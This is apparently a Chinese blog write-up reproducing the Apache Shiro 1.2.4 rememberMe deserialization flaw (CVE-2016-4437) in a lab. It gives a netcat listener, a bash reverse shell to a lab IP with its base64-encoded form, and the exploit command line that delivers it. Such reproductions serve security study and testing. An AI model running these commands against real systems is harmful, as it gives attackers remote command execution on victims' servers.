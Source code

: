 ```yaml
---
title: Apache Shiro 1.2.4反序列化漏洞（CVE-2016-4437）
date: 2020-08-27 21:41:37
categories: 漏洞复现
tags: Shiro
---
```


#### 背景

Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。Apache Shiro 1.2.4及以前版本中，加密的用户信息序列化后存储在名为remember-me的Cookie中。攻击者可以使用Shiro的默认密钥伪造用户Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。

<!--more-->

#### 复现过程

1、POC下载

<http://github.com/insightglacier/Shiro_exploit.git/>

2、Nc监听

`nc -lvp 4000`

3、编写反弹shell

将如下命令拿到<http://www.jackson-t.ca/runtime-exec-payloads.html/>网站进行编码，

`bash -i >& /dev/tcp/192.168.0.103/4000 0>&1`

编码后的反弹shell命令

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTAzLzQwMDAgMD4mMQ==}|{base64,-d}|{bash,-i}
```

![](http://qn.laohuan.xin/2020-08-27_21-33-49.png)

4、反弹shell

使用第一步下载的POC执行如下命令,IP地址为NC监听地址，-p参数为编码后的反弹shell命令。

```
python shiro_exploit.py -u http://192.168.0.108:8080 -t 3 -p "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTAzLzQwMDAgMD4mMQ==}|{base64,-d}|{bash,-i}"

```

成功拿到shell

![](http://qn.laohuan.xin/2020-08-27_21-36-57.png)

#### 参考链接

<http://github.com/vulhub/vulhub/tree/master/shiro/CVE-2016-4437/>

<http://www.cnblogs.com/panisme/p/12552838.html/>